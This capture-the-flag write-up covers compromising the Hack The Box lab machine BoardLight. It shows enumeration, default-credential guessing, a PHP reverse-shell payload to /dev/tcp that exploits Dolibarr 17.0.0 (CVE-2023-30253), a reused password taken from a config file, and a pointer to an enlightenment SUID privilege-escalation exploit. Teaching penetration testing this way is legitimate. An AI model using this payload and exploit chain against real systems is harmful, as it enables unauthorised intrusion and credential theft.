# BoardLight

BoardLight is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.




The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.11   board.htb" | sudo tee -a /etc/hosts
```



This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **directory research**.



Nothing of interest, but we can do a **subdomains** research.



And we found one! Let's add it to our **hosts** file and browse to it.

```bash
echo "10.10.11.11   crm.board.htb" | sudo tee -a /etc/hosts
```



## Foothold

A login form, first we can test some default creditentials like:
- `admin:admin`
- `admin:password`
- `admin:123456`
- `administrator:administrator`
- `root:root`



As we had seen before, the version for Dolibarr is `17.0.0` which is vulnerable to the [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253). And see [this](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) website for the proof of concept.

So we can inject php code with the template `<?PHP.....?>` in a page to gain access with a reverse shell. So we need:
- to create a new website
- create a page
- modify the html code to inject the php code
- setup a netcat listener
- access the page to execute the code.

So go in the website tab and click on the plus sign.



Give it a name and click on the create button.



Click on the plus sign to create a page, give it a name and click on the create button again.



Setup a netcat listener and edit the html code.



And in the html code paste this payload `<?PHP system("bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'");?>`. And click on this icon to preview the page.



And normally you should have a connection on your netcat!



Let's stabilize our shell first.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```
## User flag

We are connected as the `www-data` user. And we don't have any password to try and connect to other user. So let's explore the file of the website. And in `~/html/crm.board.htb/htdocs/conf` we found a file named `conf.php`. If we cat it we found a password: `serverfun2$2023!!`.
In the `etc/passwd` file we found a user named `larissa`. We can try to login a this user with the password we just found.



## Root flag

To find a flaw to exploit to access root privilege we are gonna use `linpeas.sh`. It's a script to enumerate linux distribution and help you to find potential vulnerability. [Download it](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on your local machine and setup a python web server where you have download `linpeas.sh`.

```bash
python3 -m http.server 8000
```

On the remote machine execute this command:

```bash
wget http://YOUR_IP:8000/linpeas.sh
```

And execute linpeas.sh, `sh linpeas.sh`. There is a LOT of information but one is more important that other.



it's a script with the SUID set. So we can execute it as root! And if we check it's version with:

```bash
enlightenment --version
```


After a little reseach this version is vulnerable with the [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706) and there is a proof of exploit [here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit). Download it and import it to your remote session with the same method as earlier. 

